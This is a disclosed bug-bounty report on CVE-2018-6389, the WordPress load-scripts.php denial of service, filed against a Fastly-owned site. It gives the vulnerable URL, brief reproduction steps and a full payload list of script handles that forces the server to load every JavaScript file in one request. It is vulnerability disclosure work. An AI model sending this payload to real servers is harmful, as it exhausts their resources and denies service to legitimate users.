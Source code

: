 # CVE-2018-6389 exploitation - using scripts loader

## Report Details
- **Report ID**: 1912540
- **URL**: https://hackerone.com/reports/1912540
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-03-19T18:49:10.111Z
- **Disclosed**: 2023-04-20T16:52:30.263Z

## Reporter
- **Username**: salokin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: fastly-vdp

## Vulnerability Information
Hi Fastly Team !

Unauthenticated attackers can cause a denial of service (resource consumption) by using the large list of registered .js files (from wp-includes/script-loader.php) to construct a series of requests to load every file many times.
The vulnerability is registered as CVE-2018-6389.
WordPress allows users to load multiple JS files and CSS files through load-scripts.php files at once. However, the number and size of files are not restricted in the process of loading JS files, attackers can use this function to deplete server resources and launch denial of service attacks.

**References**

The vulnerability is registered as https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389 
https://hackerone.com/reports/925425
https://hackerone.com/reports/335177
https://hackerone.com/reports/753491

**Platform(s) Affected: [website]** 
```http
www.signalsciences.com/wp-admin/load-scripts.php?load=
```
**Steps To Reproduce:**

Open Vulnerability url - open directory /wp-admin/load-scripts.php?load=
Add parameter-vulnerable in request header
In request header using GET-Method

**Payloads Vulnerabilities**
```
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
{F2237583}

## Impact

Attackers can use this vulnerable function to deplete server resources and launch denial of service attacks.

## Attachments
- Fas.png
